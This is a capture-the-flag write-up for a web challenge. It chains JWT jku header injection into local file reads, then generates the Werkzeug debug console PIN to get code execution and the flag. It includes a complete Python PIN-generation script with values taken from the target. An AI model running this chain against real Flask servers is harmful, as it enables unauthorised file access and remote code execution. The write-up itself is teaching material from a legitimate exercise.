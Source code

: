 # **_Admin ?_**
### Hard: 700 (560) pts

> Our server was compromised, we got our hands on a website that the attackers hosted there. A super important secret is there, can you bring us its contents?

> Challmaker: sc0r7

### Recognition phase

In this app we can see that we have the opportunity to read a file on the system.

But trying to do so we get `Permission error: You are not an admin, you do not have access to read server files`

![lfi forbidden](forbidden_lfi.png)

Now moving on and trying to examine the JWT token we see that there is a `profile` key in the payload part set to `visitor` which is certainly the way that the app make sure that we're an admin or visitor

![jwt looking weak](jwt_looking_weak.png)

After trying some common quick stuffs to modify it to `admin` I decided to read about the `jku` header.

So briefly summarized the `jku` hold a path to a file where a KEY is contained. And this key is used to verify that the token is authentic and it hasn't been tampered. But the thing is this path could also be a link and if the server doesn't check the origin of the key we might then:

**Create our own key**

![key gen](key_gen.png)

**Modify the jku origin to our key url and use our key to sign the modified token**

![jku exploit](jku_exploit.png)

Then the server is going to check the token with our key and we will be able to read files

![etc passwd](etc_passwd.png)

For a more detailled overview here is a link that explains it: [Jku Header Injection](https://cyberw1ng.medium.com/22-5-lab-jwt-authentication-bypass-via-jku-header-injection-1ec5032245b3)


In the previous picture we see that there is a user named `scort` (S/O challmaker) with a home directory `/home/scort`

I tried to read his ssh private key as well as some other interesting file but didn't find anything profitable.

I then remembered that when doing the directory enumeration I saw this:

![console_open](console_open.png)

This means that the `debug mode` was enabled and that is not supposed to be the case in production. Trying to access it we're required the `Werkzeug Console Pin`. But here is the thing. This PIN isn't randomly generated. In fact it is mostly based on environment information such a the `username` of the user running the app, the `flask script`, the `mac address`, the `modname` etc...

So knowing that we already have an LFI we're know able to retrieve those information in order to generate the PIN.

Here is a github script for that purpose filled with the correct parameters

```python
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
        'scort',
        'flask.app', # modname
        'Flask', # getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/home/scort/.local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
        '2485378678786', # read /sys/class/net/eth0/address for example 0d:4a:cd:.. and convert it to 0x0d4acd...
        '7988d89c-f2a7-41f6-a5b7-50f32316852a' # Machine Id: /etc/machine-id(empty in our case) + /proc/sys/kernel/random/boot_id + /proc/self/cgroup (also empty)
]

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print("Pin: " + rv)
```

Running it we get:

```bash
➜  werkzeug-debug-console-bypass git:(main) ✗ python3 werkzeug-pin-bypass.py
Pin: 114-668-164
```

Now that we have the pin we are able to open the console and then execute our python code to retrieve the flag

![flag](flag.png)

##### _By w1z0z - (l3gm1nn)_

